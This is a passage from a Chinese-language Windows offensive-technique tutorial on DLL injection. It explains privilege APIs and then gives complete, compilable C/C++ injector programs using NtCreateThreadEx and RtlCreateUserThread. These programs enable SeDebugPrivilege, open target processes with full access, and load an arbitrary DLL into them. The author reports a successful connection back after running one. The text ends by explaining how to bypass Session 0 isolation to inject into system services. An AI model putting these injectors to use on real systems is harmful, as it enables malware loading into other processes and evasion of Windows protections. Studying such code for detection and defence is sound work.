    } LUID_AND_ATTRIBUTES, *PLUID_AND_ATTRIBUTES;
    ```

  - ```
    //LUID 描述适配器的本地标识符。
    typedef struct _LUID {
      DWORD LowPart;
      LONG  HighPart;
    } LUID, *PLUID;
    
    ```

    

`LookupPrivilegeValue`

检索指定系统上用于本地表示指定特权名称的 LUID (LUID) 

> https://learn.microsoft.com/zh-cn/windows/win32/api/winbase/nf-winbase-lookupprivilegevaluea

```
BOOL LookupPrivilegeValueA(
  [in, optional] LPCSTR lpSystemName,
  [in]           LPCSTR lpName,
  [out]          PLUID  lpLuid
);
```

-  lpSystemName  指向以 null 结尾的字符串的指针，指定检索特权名称的系统的名称。 如果指定了 null 字符串，该函数将尝试在本地系统上查找特权名称。
- lpName 指向以 null 结尾的字符串的指针，指定在 Winnt.h 头文件中定义的特权名称。 
  - SE_DEBUG_NAME  SeDebugPrivilege
  - SE_PRIVILEGE_ENABLED 启用该权限。
- lpLuid：指向接收 LUID 的变量的指针，该变量在 *lpSystemName* 参数指定的系统上知道该特权。


`AdjustTokenPrivileges`

> https://learn.microsoft.com/zh-cn/windows/win32/api/securitybaseapi/nf-securitybaseapi-adjusttokenprivileges

函数启用或禁用指定[访问令牌](https://learn.microsoft.com/zh-cn/windows/desktop/SecGloss/a-gly)中的特权。 在访问令牌中启用或禁用特权需要TOKEN_ADJUST_PRIVILEGES访问权限。

```
BOOL AdjustTokenPrivileges(
  [in]            HANDLE            TokenHandle,
  [in]            BOOL              DisableAllPrivileges,
  [in, optional]  PTOKEN_PRIVILEGES NewState,
  [in]            DWORD             BufferLength,
  [out, optional] PTOKEN_PRIVILEGES PreviousState,
  [out, optional] PDWORD            ReturnLength
);

AdjustTokenPrivileges(hToken, FALSE, &tp, sizeof(tp), NULL, NULL);
```

- TokenHandle ：包含要修改的权限的访问令牌的句柄。
  - 句柄必须具有对令牌TOKEN_ADJUST_PRIVILEGES访问权限。 
  - 如果 *PreviousState* 参数不是 **NULL**，则句柄还必须具有TOKEN_QUERY访问权限。
- DisableAllPrivileges：指定函数是否禁用所有令牌的权限。 
  - 如果此值为 **TRUE**，该函数将禁用所有特权并忽略 *NewState* 参数。
  -  如果为 **FALSE**，则函数会根据 *NewState* 参数指向的信息修改特权。
- NewState：指向指定特权数组及其属性 [的TOKEN_PRIVILEGES](https://learn.microsoft.com/zh-cn/windows/desktop/api/winnt/ns-winnt-token_privileges) 结构的指针。 
  - 如果 *DisableAllPrivileges* 参数为 **FALSE**， **则 AdjustTokenPrivileges** 函数将启用、禁用或删除令牌的这些特权。
  - 如果 *DisableAllPrivileges* 为 **TRUE**，该函数将忽略此参数。
- BufferLength：指定 *PreviousState* 参数指向的缓冲区的大小（以字节为单位）。 如果 *PreviousState* 参数为 **NULL**，则此参数可以为零。
- PreviousState：指向函数填充的缓冲区的指针。此参数可以为 NULL。
- ReturnLength：指向接收 *PreviousState* 参数指向的缓冲区所需大小（以字节为单位）的变量的指针。 如果 *PreviousState* 为 **NULL**，此参数可以为 **NULL**。


3、OpenProcess 打开要注入的进程获取进程句柄

```
//打开指定进程
HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
```


4、VirtualAllocEx 在被注入的进程中申请读写内存

```
//在打开的进程中开辟空间，用于存放DLL名称
LPVOID baseAddr = ::VirtualAllocEx(hProcess, NULL, sizeof(string_inject), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
if (baseAddr == NULL)
{
printf("VirtualAllocEx failure\n");
}
printf("base address that VirtualAllocEx returns is 0x%x\n", (DWORD)baseAddr);
```


5、WriteProcessMemory 写入DLL路径到申请的内存中

```
// 将DLL名称写入内存
DWORD NumberOfBytesWritten = 0;
if (!WriteProcessMemory(hProcess, baseAddr, string_inject, sizeof(string_inject), &NumberOfBytesWritten))
{
printf("WriteProcessMemory failure\n");
}
printf("NumberOfBytesWritten = 0x%x\n", NumberOfBytesWritten);
```


6、VirtualProtectEx 修改内存保护属性，这一步可以不需要使用。

7、从Ntdll中获取NtCreateThreadEx地址，从Kernel32中获取LoadLibraryA/W地址

```c
typedef NTSTATUS(NTAPI* pfnNtCreateThreadEx)
(
	OUT PHANDLE hThread,
	IN ACCESS_MASK DesiredAccess,
	IN PVOID ObjectAttributes,
	IN HANDLE ProcessHandle,
	IN PVOID lpStartAddress,
	IN PVOID lpParameter,
	IN ULONG Flags,
	IN SIZE_T StackZeroBits,
	IN SIZE_T SizeOfStackCommit,
	IN SIZE_T SizeOfStackReserve,
	OUT PVOID lpBytesBuffer);

#define NT_SUCCESS(x) ((x) >= 0)

typedef struct _CLIENT_ID {
	HANDLE UniqueProcess;
	HANDLE UniqueThread;
} CLIENT_ID, * PCLIENT_ID;

typedef NTSTATUS(NTAPI* pfnRtlCreateUserThread)(
	IN HANDLE ProcessHandle,
	IN PSECURITY_DESCRIPTOR SecurityDescriptor OPTIONAL,
	IN BOOLEAN CreateSuspended,
	IN ULONG StackZeroBits OPTIONAL,
	IN SIZE_T StackReserve OPTIONAL,
	IN SIZE_T StackCommit OPTIONAL,
	IN PTHREAD_START_ROUTINE StartAddress,
	IN PVOID Parameter OPTIONAL,
	OUT PHANDLE ThreadHandle OPTIONAL,
	OUT PCLIENT_ID ClientId OPTIONAL);

pfnNtCreateThreadEx NtCreateThreadEx = (pfnNtCreateThreadEx)GetProcAddress(GetModuleHandle("ntdll.dll"), "NtCreateThreadEx");
if (NtCreateThreadEx == NULL)
{
    CloseHandle(hProcess);
    printf("[!]NtCreateThreadEx error\n");
    return FALSE;
}
```


8、NtCreateThreadEx 创建远程线程

```c
HANDLE ThreadHandle = NULL;
NtCreateThreadEx(
    &ThreadHandle,  //线程句柄
    0x1FFFFF,   //THREAD_ALL_ACCESS
    NULL, 
    hProcess,   //进程句柄
    (LPTHREAD_START_ROUTINE)LoadLibrary,   //线程函数
    baseAddr,   //线程函数参数，即DLL名称路径
    FALSE, 
    NULL, 
    NULL, 
    NULL, 
    NULL);
if (!ThreadHandle)
{
    printf("CreateRemoteThread failure\n");
}
printf("CreateRemoteThread = 0x%x\n", ThreadHandle);
```


9、WaitForSingleObject 等待过程完成

```c
//等待线程函数结束， 获取线程退出码,即LoadLibrary的返回值，即dll的首地址
	WaitForSingleObject(ThreadHandle, -1);
	DWORD exitCode = 0;
	if (!GetExitCodeThread(ThreadHandle, &exitCode))
	{
		printf("GetExitCodeThread  failure\n");
		printf("errcode = %d\n", GetLastError());
	}
	printf("thread exitcode = 0x%x\n", exitCode);

	if (baseAddr != NULL)
		VirtualFreeEx(hProcess, baseAddr, 0, MEM_RELEASE);

	if (ThreadHandle != NULL)
		CloseHandle(ThreadHandle);

	if (hProcess != NULL)
		CloseHandle(hProcess);

	return TRUE;
```


总代码：

```c
// NtCreateThreadEx_3.cpp : 此文件包含 "main" 函数。程序执行将在此处开始并结束。
//
#include "windows.h"
#include "stdio.h"
#include "iostream"
#include <TlHelp32.h>

using namespace std;

//char string_inject[] = "C:\\Users\\drop\\Desktop\\1.dll";
//char string_inject[256];
char string_inject[256];

typedef NTSTATUS(NTAPI* pfnNtCreateThreadEx)
(
	OUT PHANDLE hThread,
	IN ACCESS_MASK DesiredAccess,
	IN PVOID ObjectAttributes,
	IN HANDLE ProcessHandle,
	IN PVOID lpStartAddress,
	IN PVOID lpParameter,
	IN ULONG Flags,
	IN SIZE_T StackZeroBits,
	IN SIZE_T SizeOfStackCommit,
	IN SIZE_T SizeOfStackReserve,
	OUT PVOID lpBytesBuffer);

#define NT_SUCCESS(x) ((x) >= 0)

typedef struct _CLIENT_ID {
	HANDLE UniqueProcess;
	HANDLE UniqueThread;
} CLIENT_ID, * PCLIENT_ID;

typedef NTSTATUS(NTAPI* pfnRtlCreateUserThread)(
	IN HANDLE ProcessHandle,
	IN PSECURITY_DESCRIPTOR SecurityDescriptor OPTIONAL,
	IN BOOLEAN CreateSuspended,
	IN ULONG StackZeroBits OPTIONAL,
	IN SIZE_T StackReserve OPTIONAL,
	IN SIZE_T StackCommit OPTIONAL,
	IN PTHREAD_START_ROUTINE StartAddress,
	IN PVOID Parameter OPTIONAL,
	OUT PHANDLE ThreadHandle OPTIONAL,
	OUT PCLIENT_ID ClientId OPTIONAL);


BOOL Injection(int processPID, char* pa)
{
	printf("[!]InjectDll path %s\n", string_inject);
	//进程PID的获取，此处设定成固定值
	int pid = processPID;

	//打开指定进程
	HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);

	//在打开的进程中开辟空间，用于存放DLL名称
	LPVOID baseAddr = ::VirtualAllocEx(hProcess, NULL, sizeof(string_inject), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	if (baseAddr == NULL)
	{
		printf("VirtualAllocEx failure\n");
	}
	printf("base address that VirtualAllocEx returns is 0x%x\n", (DWORD)baseAddr);

	// 将DLL名称写入内存
	DWORD NumberOfBytesWritten = 0;
	if (!WriteProcessMemory(hProcess, baseAddr, string_inject, sizeof(string_inject), &NumberOfBytesWritten))
	{
		printf("WriteProcessMemory failure\n");
	}
	printf("NumberOfBytesWritten = 0x%x\n", NumberOfBytesWritten);

	// 创建远程线程
	//参1是进程ID，参4是函数名称，参5是函数参数即DLL名称
	//LPTHREAD_START_ROUTINE FreeLibraryAddress = NULL;
	//HMODULE Kernel32Module = GetModuleHandle("Kernel32");
	//FreeLibraryAddress = (LPTHREAD_START_ROUTINE)GetProcAddress(Kernel32Module, "FreeLibrary");
	pfnNtCreateThreadEx NtCreateThreadEx = (pfnNtCreateThreadEx)GetProcAddress(GetModuleHandle("ntdll.dll"), "NtCreateThreadEx");
	if (NtCreateThreadEx == NULL)
	{
		CloseHandle(hProcess);
		printf("[!]NtCreateThreadEx error\n");
		return FALSE;
	}
	HANDLE ThreadHandle = NULL;
	NtCreateThreadEx(
		&ThreadHandle, 
		THREAD_ALL_ACCESS, 
		NULL, 
		hProcess, 
		(LPTHREAD_START_ROUTINE)LoadLibrary, 
		baseAddr, 
		FALSE, 
		NULL, 
		NULL, 
		NULL, 
		NULL);
	if (!ThreadHandle)
	{
		printf("CreateRemoteThread failure\n");
	}
	printf("CreateRemoteThread = 0x%x\n", ThreadHandle);

	//等待线程函数结束， 获取线程退出码,即LoadLibrary的返回值，即dll的首地址
	WaitForSingleObject(ThreadHandle, -1);
	DWORD exitCode = 0;
	if (!GetExitCodeThread(ThreadHandle, &exitCode))
	{
		printf("GetExitCodeThread  failure\n");
		printf("errcode = %d\n", GetLastError());
	}
	printf("thread exitcode = 0x%x\n", exitCode);

	if (baseAddr != NULL)
		VirtualFreeEx(hProcess, baseAddr, 0, MEM_RELEASE);

	if (ThreadHandle != NULL)
		CloseHandle(ThreadHandle);

	if (hProcess != NULL)
		CloseHandle(hProcess);

	return TRUE;

}

void GetProcessInfo()
{
	HANDLE hSnapshot;
	PROCESSENTRY32 ProcessEntry;
	ProcessEntry.dwSize = sizeof(PROCESSENTRY32);
	hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);

	if (Process32First(hSnapshot, &ProcessEntry))
	{
		do
		{
			cout << ProcessEntry.th32ProcessID << "\t" << ProcessEntry.szExeFile << "\n";
		} while (Process32Next(hSnapshot, &ProcessEntry));
	}
	CloseHandle(hSnapshot);
	printf("================================\n");
}

BOOL EnableDebugPrivilege(BOOL fEnable)
{
	BOOL fOk = FALSE;
	HANDLE hToken;
	if (OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &hToken))
	{
		TOKEN_PRIVILEGES tp;
		tp.PrivilegeCount = 1;
		LookupPrivilegeValue(NULL, SE_DEBUG_NAME, &tp.Privileges[0].Luid);
		tp.Privileges[0].Attributes = fEnable ? SE_PRIVILEGE_ENABLED : 0;
		AdjustTokenPrivileges(hToken, FALSE, &tp, sizeof(tp), NULL, NULL);
		fOk = (GetLastError() == ERROR_SUCCESS);
		CloseHandle(hToken);
	}
	return(fOk);
}

int main(int argc, char* argv[])
{
	GetProcessInfo();

	printf("Use NtCreateThreadEx to inject dll\n\n");

	if (!EnableDebugPrivilege(TRUE))
	{
		printf("[!]AdjustTokenPrivileges Failed.<%d>\n", GetLastError());
	}

	if (argc != 3)
	{
		printf("Usage:\n");
		printf("%s <PID> <Dll Full Path>\n", argv[0]);
		return 0;
	}
    //接收参数
	int processID = atoi(argv[1]);
	char* buffer = argv[2];
	
	strcpy_s(string_inject, buffer);
	printf("[!]InjectDll path %s\n", string_inject);

	if (!Injection(processID, string_inject))
	{
		printf("[!]InjectDll error \n");
		return 1;
	}

	printf("[+]InjectDll success\n");
	return 0;
}
```

编译


用管理员权限执行程序：



成功提权（开启权限，不是提权），并上线


以上函数都可以直接调用原型函数执行，如 Ntxxxxx

> https://github.com/tweerie/NT_RemoteThreadInjection/blob/master/NT_RemoteThreadInjection/NT_RemoteThreadInjection.cpp
>
> https://www.freebuf.com/articles/network/264008.html


参考：

> 一文读懂远程线程注入 https://www.freebuf.com/articles/network/264008.html
>
> DLL Injection Part 2: CreateRemoteThread and More https://warroom.rsmus.com/dll-injection-part-2-createremotethread-and-more/
>
> https://github.com/3gstudent/Inject-dll-by-APC/blob/master/NtCreateThreadEx.cpp
>
> https://github.com/tweerie/NT_RemoteThreadInjection/blob/master/NT_RemoteThreadInjection/NT_RemoteThreadInjection.cpp
>
> Inject集合----远程线程注入（NtCreateThreadEx）https://blog.csdn.net/qq_42021840/article/details/106135811
>
> 【总结】用户权限设置和进程权限提升 https://blog.csdn.net/yockie/article/details/17029293
>
> x64下NtCreateThreadEx远程线程注入shellcode失败：https://bbs.kanxue.com/thread-266684.htm
>
> Anti-Debug NtCreateThreadEx：https://ntquery.wordpress.com/2014/03/29/anti-debug-ntcreatethreadex/
>
> Remote Thread Execution in System Process using NtCreateThreadEx for Vista & Windows7：https://securityxploded.com/ntcreatethreadex.php
>
> CreateRemoteThread RtlCreateUserThread NtCreateThreadEx https://blog.csdn.net/Dreamer12138/article/details/106163593
>
> [C++ & Windows - DLL Injection by NtCreateThreadEx function is not worked](https://stackoverflow.com/questions/35924578/c-windows-dll-injection-by-ntcreatethreadex-function-is-not-worked)
>
> [DLL injection via undocumented NtCreateThreadEx. Simple C++ example.](https://cocomelonc.github.io/tutorial/2021/12/06/malware-injection-9.html)
>
> [高级远程线程注入NtCreateThreadEx](https://www.cnblogs.com/iBinary/p/16026217.html)


# DLL Injection By RtlCreateUserThread

## 注入原理

RtlCreateUserThread 是 NtCreateThreadEx 的一个小包装器。系统版本不同 NtCreateThreadEx 的系统调用选项可能发生变化。因此，使用RtlCreateUserThread 更方便。 [Mimikatz](https://github.com/gentilkiwi/mimikatz/blob/d5676aa66cb3f01afc373b0a2f8fcc1a2822fd27/modules/kull_m_remotelib.c#L59) 和 [Metasploit](https://github.com/rapid7/meterpreter/blob/6d43284689240f4261cae44a47f0fb557c1dde27/source/common/arch/win/remote_thread.c)  都使用 RtlCreateUserThread 进行 DLL 注入。


## 实现步骤

- 获取系统上现有进程的句柄或创建新的牺牲进程
  - OpenProcess() 打开进程
  - CreateProcess() 创建新进程
  - CreateProcessAsUser() 创建新进程及其主线程
- 在目标进程中申请内存空间 VirtualAllocEx VirtualAllocEx()
- 在目标进程中写入DLL完整路径 WriteProcessMemory()
- 从Ntdll中获取RtlCreateUserThread地址，从Kernel32中获取LoadLibraryA/W地址
- 调用RtlCreateUserThread创建远程线程 RtlCreateUserThread()


```c
#include <Windows.h>
#include <tlhelp32.h>
#include <stdio.h>
#include <iostream>
#include <string>

using namespace std;

//t通过进程名获取进程PID
DWORD findPidByName(const char* pname) //获得pid函数，对上面的查找进行改进
{
    HANDLE h;
    PROCESSENTRY32 procSnapshot;
    h = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    procSnapshot.dwSize = sizeof(PROCESSENTRY32);

    do
    {
        if (!_stricmp(procSnapshot.szExeFile, pname))
        {
            DWORD pid = procSnapshot.th32ProcessID;
            CloseHandle(h);
#ifdef _DEBUG
            printf(("[+]进程地址: %ld\n"), pid);
#endif
            return pid;
        }
    } while (Process32Next(h, &procSnapshot));

    CloseHandle(h);
    return 0;
}

typedef DWORD(WINAPI* pRtlCreateUserThread)(    //函数申明
    IN HANDLE                     ProcessHandle,
    IN PSECURITY_DESCRIPTOR     SecurityDescriptor,
    IN BOOL                     CreateSuspended,
    IN ULONG                    StackZeroBits,
    IN OUT PULONG                StackReserved,
    IN OUT PULONG                StackCommit,
    IN LPVOID                    StartAddress,
    IN LPVOID                    StartParameter,
    OUT HANDLE                     ThreadHandle,
    OUT LPVOID                    ClientID
    );

DWORD RtlCreateUserThread(LPCSTR pszLibFile, DWORD dwProcessId)
{
    pRtlCreateUserThread RtlCreateUserThread = NULL;
    HANDLE  hRemoteThread = NULL;

    //打开目标进程
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwProcessId); //打开目标进程pid
    if (hProcess == NULL)
    {
        printf("[-] Error: Could not open process for PID (%d).\n", dwProcessId);
        exit(1);
    }

    //获取LoadLibraryA函数
    LPVOID LoadLibraryAddress = (LPVOID)GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");  //load函数地址
    if (LoadLibraryAddress == NULL)
    {
        printf(("[-] Error: Could not find LoadLibraryA function inside kernel32.dll library.\n"));
        exit(1);
    }

    //获取RtlCreateUserThread函数
    RtlCreateUserThread = (pRtlCreateUserThread)GetProcAddress(GetModuleHandle(("ntdll.dll")), ("RtlCreateUserThread"));//获取Rtl函数地址
    if (RtlCreateUserThread == NULL)
    {
        exit(1);
    }

#ifdef _DEBUG
    printf(("[+]RtlCreateUserThread函数地址： 0x%08x\n"), (UINT)RtlCreateUserThread);
    printf(("[+]LoadLibraryA函数地址： 0x%08x\n"), (UINT)LoadLibraryAddress);
#endif

    //在目标进程空间开辟空间
    DWORD dwSize = (strlen(pszLibFile) + 1) * sizeof(char);
    LPVOID lpBaseAddress = VirtualAllocEx(hProcess, NULL, dwSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);//开辟一段地址
    if (lpBaseAddress == NULL)
    {
        printf(("[-] Error: Could not allocate memory inside PID (%d).\n"), dwProcessId);
        exit(1);
    }

    //将DLL名称保存到开辟的空间
    BOOL bStatus = WriteProcessMemory(hProcess, lpBaseAddress, pszLibFile, dwSize, NULL);  //目标dll写入
    if (bStatus == 0)
    {
        printf(("[-] Error: Could not write any bytes into the PID (%d) address space.\n"), dwProcessId);
        return(1);
    }

    //开启远程线程，使用 RtlCreateUserThread 函数加载DLL
    bStatus = (BOOL)RtlCreateUserThread(
        hProcess,
        NULL,
        0,
        0,
        0,
        0,
        LoadLibraryAddress,  //shellcode
        lpBaseAddress,
        &hRemoteThread,
        NULL);
    if (bStatus < 0)
    {
        printf(("[-]注入失败\n"));
        return(1);
    }
    else
    {
        printf(("[+]注入成功...\n"));
        WaitForSingleObject(hRemoteThread, INFINITE);　//等待执行加载完成

        CloseHandle(hProcess);
        VirtualFreeEx(hProcess, lpBaseAddress, dwSize, MEM_RELEASE);
        return(0);
    }

    return(0);
}


void GetProcessInfo()
{
    HANDLE hSnapshot;
    PROCESSENTRY32 ProcessEntry;
    ProcessEntry.dwSize = sizeof(PROCESSENTRY32);
    hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);

    if (Process32First(hSnapshot, &ProcessEntry))
    {
        do
        {
            cout << ProcessEntry.th32ProcessID << "\t" << ProcessEntry.szExeFile << "\n";
        } while (Process32Next(hSnapshot, &ProcessEntry));
    }
    CloseHandle(hSnapshot);
    printf("================================\n");
}


int main(int argc, char* argv[])
{
    GetProcessInfo();

    printf("Use RtlCreateUserThread_1 to inject dll\n\n");

    if (argc != 3)
    {
        printf("Usage:\n");
        printf("%s <PID> <Dll Full Path>\n", argv[0]);
        return 0;
    }

    //const char* name = ("fg.exe");
    //DWORD pId = findPidByName(name);
    //LPCSTR location = ("c:\\2.dll");

    DWORD pId = atoi(argv[1]);
    LPCSTR location = argv[2];

    RtlCreateUserThread(location, pId);
}

```






还有相对复杂的步骤：

> https://www.codenong.com/cs106121208/

- 从控制台得到想要实施注入的目标进程名字
- 得到当前进程所在的目录(GetCurrentDirectory)，并保存
- 得到当前进程的位数 (IsWow64Process)
- 根据进程名字得到当前进程的Id
- 根据进程Id得到当前进程的完整路径
- 通过进程完整路径对PE文件解析得到目标进程位数
- 目标与当前进程的位数进行匹配，决定加载哪一个dll(x86 or x64)
- 根据当前进程目录，得到dll完整路径
- 通过GetModuleHandle得ntdll和kernel32模块得句柄
- 通过GetProcAddress分别从ntdll和kernel32中得到RtlCreateUserThread和LoadLibraryA
- 通过目标进程Id，打开目标进程，获得进程句柄
- 在目标进程中申请内存
- 在申请好的内存中写入Dll完整路径
- 利用RtlCreateUserThread启动远程线程执行加载Dll，完成注入


参考：

> RtlCreateUserThread例子 https://www.cnblogs.com/ring5/p/15417999.html
>
> CreateRemoteThread和RtlCreateUserThread进程创建之后注入DLL https://bbs.kanxue.com/thread-258979.htm
>
> RtlCreateUserThread实现Dll注入 https://www.codenong.com/cs106121208/
>
> 在内核中创建线程注入DLL到R3进程(3) https://yhsnlkm.github.io/2021/02/23/%E6%94%BB%E9%98%B2%E4%BF%9D%E6%8A%A4/%E5%9C%A8%E5%86%85%E6%A0%B8%E4%B8%AD%E5%88%9B%E5%BB%BA%E7%BA%BF%E7%A8%8B%E6%B3%A8%E5%85%A5DLL%E5%88%B0R3%E8%BF%9B%E7%A8%8B-3/
>
> 一文读懂远程线程注入 https://www.freebuf.com/articles/network/264008.html
>
> 远程线程注入（RtlCreateUserThread） https://blog.csdn.net/qq_42021840/article/details/106154804
>
> [Dll injection with RltCreateUserThread](https://stackoverflow.com/questions/37962617/dll-injection-with-rltcreateuserthread)
>
> https://github.com/EthanTom/InjectorX/blob/master/main.c
>
> https://github.com/creationyun/RtlCreateUserThread-Injection/blob/main/RtlCreateUserThread-Injection/main.cpp
>
> https://github.com/panagioto/Mimir/blob/master/Mimir/Mimir.cpp
>
> https://github.com/AzureGreen/InjectCollection/blob/master/RtlCreateUserThread/RtlCreateUserThread.cpp


# Bypass Session 0 By ZwCreateThreadEx

## Session 0隔离机制?

> https://zditect.com/code/breakthrough-session-isolation-of-windows-service--remote-thread-injection.html
>
> https://www.cnblogs.com/nice0e3/p/15318327.html#%E7%AA%81%E7%A0%B4session-0
>
> https://www.2brightsparks.com/resources/articles/understanding-windows-sessions.pdf

​	每个登录到 Windows 的用户都被置于一个单独的 Session 中。在启动期间，将创建 Session 0，并根据需要创建其他 Session。服务始终在 Session 0 中运行。

​	但是，

​	在同一 Session 中同时运行服务和用户应用程序时会出现几个安全问题。例如，如果病毒不将自身安装为服务并从高权限帐户运行，它可能会对用户的系统造成严重破坏。从 Windows Vista 开始，Session 0 中引入了两项重要更改以缓解这些问题：

- Session 0 专为服务和其他非交互式用户应用程序保留。登录到 Windows 的用户及其用户应用程序必须在 Session 1 或更高版本中运行。
- 不支持 Session 0 中的用户界面。在 Session 0 中运行的进程无法访问图形硬件，因此用户界面无法直接显示在监视器上。


在某些情况下，某些服务可能需要用户手动启动（通常是用户自定义服务）。

​	在早期的 Windows 操作系统中，Windows服务在后台执行各种任务，支持日常的桌面操作。有时服务可能需要与用户进行信息或界面交互。此时系统服务和应用程序运行在同一个 Session 空间中，但此时会存在较大的安全隐患。因为服务是以提升的权限运行的，而大多数应用程序在运行时并没有相应的高级权限，所以在同一个 Session 空间中，服务程序所拥有的高级权限将成为大多数黑客攻击的目标。

​	在 Windows XP 和更早版本的 Windows 中，Session 0 也可以运行用户应用程序。如下图所示，在 Windows XP 中启用快速用户切换后，Session 0 将与该用户在该 Session 中运行的任何应用程序一起分配给第一个登录用户。第二个用户被分配到 Session 1，依此类推。




​	所以Microsoft 在Windows Vista之后，针对这个问题进行了安全限制。当用户登录时，系统服务和用户应用程序分别在 Session  0 和 Session  1 中运行。而且Session 0和Session 1之间是不能进行信息和界面交互操作的，这也可以从我们在进行远程线程注入时无法成功注入到服务进程中得出结论。 



​	Vista之后的操作系统版本：用户1登录时，系统服务运行在 Session 空间0（Session 0），应用程序运行在 Session 空间1（Session 1）。当用户2登录时，应用程序运行在 Session 空间2中，系统服务也是共享的。

​	 可以使用 procexp 查看服务和应用程序运行的 Session 空间。Windows服务，当线程注入是通过 Session和使用常规方法对Session 0服务的进程进行注入操作，注入会失败。 “罪魁祸首”是Windows。操作系统的点 Session 隔离机制。这种机制使得它在创建进程后不会立即运行，而是先将进程挂起，然后在检查要运行的进程的 Session 层后再决定是否恢复进程。当使用CreateRemoteThread创建远程线程时，会调用底层函数ZwCreateThreadEx创建远程线程。注入服务进程时，ZwCreatedThreadEx的参数CreateSuspended（即CreatedThread标志位）一直为1，这直接导致注入的线程卡在挂起状态，无法运行。


## 注入原理

为什么要使用 `ZwCreateThreadEx`函数注入？

​	因为存在Windows的会话隔离机制，在使用如 `CreateRemoteThread` 函数注入系统进程时会失败，`CreateRemoteThread`底层实际上也是通过`ZwCreateThreadEx`函数实现线程创建的。在调用`ZwCreateThreadEx`创建远程线程时，第七个参数`CreateThreadFlags`为1，会导致线程创建完成后一直挂起无法恢复进程运行，导致注入失败。

​	`ZwCreateThreadEx`函数可以突破SESSION 0 隔离，将DLL注入到SESSION 0 隔离的系统服务进程中。想要注册成功，把该参数的值改为0即可。

## ZwCreateThreadEx

Nt 前缀是Windows NT的缩写，而Zw前缀是没有意义的。

